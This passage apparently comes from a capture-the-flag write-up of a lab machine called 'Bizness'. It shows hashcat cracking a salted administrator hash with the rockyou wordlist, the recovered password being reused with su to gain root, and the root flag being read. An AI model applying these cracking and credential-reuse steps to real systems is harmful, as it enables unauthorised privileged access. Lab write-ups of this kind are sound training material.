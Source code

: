 

It takes about 3 seconds, but doesn't break anything. I'll try `-m 120`,
which is prepending the salt to the password and hashing:



    $ hashcat ./administrator_hash_mod -m 120 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting
    ...[snip]...
    b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
    ...[snip]...



It cracks in two seconds to "monkeybizness".

### su

That password works for root on Bizness:



    ofbiz@bizness:/opt/ofbiz/runtime/data$ su -
    Password: 
    root@bizness:~#



And I can get `root.txt`:



    root@bizness:~# cat root.txt
    0a540d50************************







